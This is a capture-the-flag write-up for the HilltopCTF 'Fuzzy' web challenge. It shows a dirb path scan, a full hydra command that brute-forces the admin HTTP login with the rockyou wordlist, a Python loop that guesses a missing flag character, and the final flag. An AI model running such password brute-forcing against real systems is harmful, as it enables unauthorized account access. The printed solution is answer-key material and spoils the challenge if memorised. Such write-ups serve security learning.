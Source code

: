 # **Fuzzy**
## Points: 25
### **Description:** For this challenge, you visit this [website](http://shellserver1.hilltopctf.masterwayz.nl:39354). Once you've found the flag, submit it to [http://shellserver1.hilltopctf.masterwayz.nl:39354/verify/flag-here](http://shellserver1.hilltopctf.masterwayz.nl:39354/verify/flag-here) to verify that it's correct. Replace flag-here with the flag that you want to test. Good luck!

First, I used dirb to find subdomains. I found /email, which when visiting, has an HTTP authentication form. It tells us that the username is admin, but we have to find the password. 
I used hydra to brute force the login. I used this command: `hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 39354 -f shellserver1.hilltopctf.masterwayz.nl http-get /email`

Hydra found that the password for the _admin_ username was _michelle_. Logging in, it gives us the flag, although one character is corrupted. 
This is what it says:

```root@hihi:~ # cat corrupted.txt
HilltopCTF{FuzzyFuzzyFuzzyFuzzyFuzzy!_08b353dc330dcad5734172ff5009f5e6b3826d49fa7243f3e598effb85bef982}

# It's not really corrupted. But I would like to annoy you a bit and let you guess the ASCII printable character or Extended ASCII character. It replaces the ! in the flag.
```

To find the "corrupted" character, I wrote a python script that tried every character. 

```python
import requests

characters = """abcdefghijklmnopqrstuvwxyzQWERTYUIOPASDFGHJKLZXCVBNM1234567890!@#$%^&*()~:;"'[{-_=+]}\|,<.>/?"""
for character in characters:
	flag = "HilltopCTF{FuzzyFuzzyFuzzyFuzzyFuzzy" + character + "_08b353dc330dcad5734172ff5009f5e6b3826d49fa7243f3e598effb85bef982}"
	url = """http://shellserver1.hilltopctf.masterwayz.nl:39354/verify/""" + flag
	r = requests.get(url)
	rJson = r.json()
	print(rJson, flag)

```

## **Flag:** HilltopCTF{FuzzyFuzzyFuzzyFuzzyFuzzy5_08b353dc330dcad5734172ff5009f5e6b3826d49fa7243f3e598effb85bef982}
